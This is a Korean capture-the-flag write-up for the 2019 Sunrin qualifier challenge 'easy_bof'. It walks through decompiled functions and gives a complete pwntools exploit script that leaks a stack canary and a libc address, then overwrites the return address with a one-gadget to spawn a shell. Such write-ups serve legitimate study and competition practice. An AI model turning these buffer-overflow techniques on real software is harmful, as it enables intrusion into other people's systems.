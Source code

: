 ```yaml
---
title: "2019 선린 고등해커 예선 easy_bof"
date: 2020-1-10
tags: [Sunrin]
categories: [Sunrin]
---
```


64비트 바이너리고 stripped 돼있다.

```
so_ezpz: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=a533875a3669dbcc27f8121185aaf3171b136021, stripped
```

보호기법은 다 걸려있다.

```
[*] '/vagrant/ctfs/so_ezpz'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

메인은 이렇게 되어있는데 stripped돼서 심볼이 없어서 불편했다. do while로 계속 실행해준다.

`sub_C33` : 세팅해주는 함수

`sub_B00` : 카나리 설정

`sub_D30` : 메뉴 출력

`sub_D67` : 메뉴 기능들 

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  const char *v3; // rdi
  char v5; // [rsp+0h] [rbp-110h]
  __int64 v6; // [rsp+108h] [rbp-8h]

  sub_C33();
  sub_B00(&v6);
  puts("This is warming up! :)");
  v3 = "So ezpzezpz ~~~~~\n";
  puts("So ezpzezpz ~~~~~\n");
  do
  {
    sub_D30(v3);
    v3 = &v5;
  }
  while ( (unsigned int)sub_D67(&v5) );
  return 0LL;
}
```

`sub_C33` 함수는 `/dev/urandom` 으로 8바이트 뽑아와서 0x707070707070707이랑 xor한 후  `qword_2020E8` 에 Canary로 저장해둔다. 뭐 세팅 해주는 함수인 거 같다. 

```c
__int64 sub_C33()
{
  int fd; // ST0C_4
  __int64 result; // rax

  fd = open("/dev/urandom", 0);
  read(fd, &qword_2020E8, 8uLL);
  fflush(stdin);
  fflush(stdout);
  fflush(stderr);
  setvbuf(stdin, 0LL, 1, 0LL);
  setvbuf(stdout, 0LL, 1, 0LL);
  setvbuf(stderr, 0LL, 1, 0LL);
  qword_2020D8 = (__int64)sub_B2C;
  qword_2020E0 = (__int64)sub_BFB;
  result = qword_2020E8 ^ 0x707070707070707LL;
  qword_2020E8 ^= 0x707070707070707uLL;
  return result;
}
```

여기는 메뉴 기능들 있는 곳이다. 

`sub_BCA` 함수는 입력받고 atoi함수 호출 후 리턴해주는 함수다. 그냥 메뉴 입력받는 곳.

`qword_2020D0[v2](a1, v2)` 여기서 함수 호출해준다. 

```c
int __fastcall sub_D67(__int64 a1)
{
  int result; // eax
  unsigned int v2; // [rsp+1Ch] [rbp-4h]

  v2 = sub_BCA();
  if ( v2 > 2 )
    return puts("no no ... :(");
  if ( v2 )
  {
    qword_2020D0[v2](a1, v2);
    result = -1;
  }
  else
  {
    puts("Bye~~");
    result = 0;
  }
  return result;
}
```

익스는 간단하다. 

1번 메뉴에서 범위를 자기가 512까지 지정할 수 있다. Buf를 Canary 위치 전까지 덮고 Write해서 카나리를 가져오면 된다.

그리고 Buf를 280만큼 덮고 write해주면 `__libc_start_main+240` 주소가 나온다. 

![](https://user-images.githubusercontent.com/32904385/72091386-651e2d00-3353-11ea-9f7d-5ee6640096a9.png)

이제 그냥 Canary 맞춰주고 oneshot 날려주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./so_ezpz')
p = process('./so_ezpz')
libc = e.libc
sla = lambda x,y : p.sendlineafter(x,y)
sa = lambda x,y : p.sendafter(x,y)
sl = lambda x : p.sendline(x)
s = lambda x : p.send(x)

sla('>','1')
sla('?','264')
s('A'*264)
sla('>','2')
p.recvuntil('A'*264)
canary = u64(p.recv(8))
log.info('Canary : ' + hex(canary))

sla('>','1')
payload = 'A'*264
payload += p64(canary)
payload += 'B'*8
sla('?',str(len(payload)))
s(payload)
# raw_input()

sla('>','2')
p.recvuntil(payload)

libc_base = u64(p.recv(6) + '\x00\x00') - (libc.symbols['__libc_start_main'] + 240)
log.info('libc_base : ' + hex(libc_base))

sla('>','1')
payload2 = 'A'*264
payload2 += p64(canary)
payload2 += 'A'*8
payload2 += p64(libc_base + 0x45216)
sla('?',str(len(payload2)))
sl(payload2)

p.interactive()
```

